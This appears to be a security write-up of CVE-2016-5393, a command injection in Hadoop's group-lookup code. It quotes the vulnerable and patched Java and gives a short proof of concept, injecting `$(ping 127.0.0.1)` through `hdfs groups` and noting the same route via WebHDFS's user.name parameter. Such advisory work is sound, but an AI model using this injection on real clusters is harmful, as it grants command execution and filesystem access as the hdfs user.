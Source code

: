 CVE-2016-5393 - Authenticated command execution as the hdfs user
================================================================

Description
-----------
Hadoop 2.6.x < 2.6.5 and 2.7.x < 2.7.3 is vulnerable to an **authenticated command execution as the hdfs user on clusters having `org.apache.hadoop.security.ShellBasedUnixGroupsMapping` as the `hadoop.security.group.mapping` property** (defined in `core-site.xml`).  

This property is **not the default value**, which is [`org.apache.hadoop.security.JniBasedUnixGroupsMappingWithFallback`](https://hadoop.apache.org/docs/r2.6.0/hadoop-project-dist/hadoop-hdfs/HdfsPermissionsGuide.html#Group_Mapping), and which is **not vulnerable**.  

The vulnerability relies in the fact that the **group lookup function of a username does not escape the provided `user` parameter** and passes it to a **`"bash -c"` command**.   

The vulnerable code is located in the `hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java` file of [that revision](https://github.com/apache/hadoop/blob/9d4d30243b0fc9630da51a2c17b543ef671d035c/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java) in the `getGroupsForUserCommand` function:
```
public static String[] getGroupsForUserCommand(final String user) {
//'groups username' command return is inconsistent across different unixes
return WINDOWS ?
  new String[]
      {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""}
  : new String[] {"bash", "-c", "id -gn " + user + "; id -Gn " + user};
}
```  
This vulnerability has been fixed on August 2nd 2016 in the [following commit](https://github.com/apache/hadoop/commit/954465e7ba3af3e5b083b6251562e5e77529f906) by adding the `bashQuote` function:
```
static String bashQuote(String arg) {
  StringBuilder buffer = new StringBuilder(arg.length() + 2);
  buffer.append('\'');
  buffer.append(arg.replace("'", "'\\''"));
  buffer.append('\'');
  return buffer.toString();
}

public static String[] getGroupsForUserCommand(final String user) {
  //'groups username' command return is inconsistent across different unixes
  if (WINDOWS) {
    return new String[]
        {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""};
  } else {
    String quotedUser = bashQuote(user);
    return new String[] {"bash", "-c", "id -gn " + quotedUser +
                          "; id -Gn " + quotedUser};
  }
}
```
  
Exploitation
------------
* With the **Hadoop client command `hdfs groups`**:
  ```
  $ hdfs groups '$(ping 127.0.0.1)'
  
  $ ps aux|grep --color "ping 12"
  ...
  hdfs      6227  0.0  0.0  15484   764 ?        S    13:24   0:00 bash -c id -gn $(ping 127.0.0.1)&& id -Gn $(ping 127.0.0.1)
  hdfs      6228  0.0  0.0  14732   868 ?        S    13:24   0:00 ping 127.0.0.1
  ...
  ```
* Through the **`user.name` parameter on WebHDFS**, but in that case:
  * `Simple authentication` should be deployed in order to have `user.name` manipulable  
  * So this **does not provide more read access** to data, as `Simple authentication` does not protect from user spoofing, but it **adds command execution capability on the NameNode from an HTTP request**  
  
  
Post-exploitation
-----------------
Being the `hdfs` user, an attacker could then **access the entire distributed filesystem** as well as gaining a **shell access** to the NameNode.  
  
  
References
----------
* https://www.cvedetails.com/cve/CVE-2016-5393/
* http://seclists.org/oss-sec/2016/q4/537